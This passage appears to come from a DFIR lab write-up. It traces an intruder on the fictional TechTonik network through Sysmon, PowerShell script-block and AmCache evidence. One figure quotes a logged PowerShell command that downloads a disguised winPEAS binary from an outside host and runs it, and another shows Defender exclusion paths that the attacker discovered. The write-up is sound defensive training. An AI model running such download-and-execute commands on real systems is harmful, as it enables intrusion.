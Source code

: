 You can query for Sysmon event IDs 1 and 4 on **`TTK-FS-01`** and witness their internal reconnaissance activity with `stanley.eugene` using `powershell.exe` to call other binaries such as `cmd.exe`, `nslookup.exe`, `whoami.exe`. An [interesting article by Brian Krebs calls this "_looking up_"](https://krebsonsecurity.com/2023/08/tourists-give-themselves-away-by-looking-up-so-do-most-network-intruders/) , likening the behaviour to tourists; which in a way, they are on TechTonik's network. 

By querying for Powershell Event ID 4104 logs around this time, we see the following activity:

![figure015]({{site.baseurl}}/assets/screenshots/figure015.png)
```powershell
2024/05/25 12:31:36 iwr http://downloads.yxz.red:8080/msrdc.exe -OutFile msrdc.exe
2024/05/25 12:34:11 .\msrdc.exe -lolbas notcolor > debug.log
```
**Figure 15**: Script block entries on **`TTK-FS-01`** showing the use of PowerShell to download winPEAS.

The term `lolbas` is a phrase meaning "Living Off The Land Binaries And Scripts", and a search of the CLI arguments indicates that this is [winPEASexe](https://github.com/peass-ng/PEASS-ng/blob/master/winPEAS/winPEASexe/README.md), a windows version of the script we found on device **`TTK-DEV-01`**. 

The [AmCache.hve](https://www.magnetforensics.com/blog/shimcache-vs-amcache-key-windows-forensic-artifacts/) is a Windows registry hive that records execution and the SHA-1 file hash of executables and DLLs. If we check the file "`amcache_unassociatedfileentries.csv`" in the Triage image, we can find the SHA 1 of `msrdc.exe`. You can also calculate the hashsum yourself using *`Get-Filehash`* since the .exe still exists in the folder along with many other *goodies*.

![figure016]({{site.baseurl}}/assets/screenshots/figure016.png)
**Figure 16**: The many goodies of the `systoolkit` folder

I highly recommend looking at the output of `msrdc.exe`, which we now know to be winPEAS, and see what the attacker has gained. The full path is: `c:\code\systoolkit\debug.log`. 

## Setting up the Network for Attack

```text
╔══════════╣ Windows Defender configuration
  Local Settings
  Group Policy Settings

  Path Exclusions:
    \\TTK-FS-01\Code
    C:\Code
    \\10.0.2.5\Code
    \\127.0.0.1\Code

  PolicyManagerPathExclusions:
    \\TTK-FS-01\Code
    C:\Code
    \\10.0.2.5\Code
    \\127.0.0.1\Code
    ...
```
**Figure 17**: A section of `c:\code\systoolkit\debug.log` which shows existing exclusions in the TechTonik environment
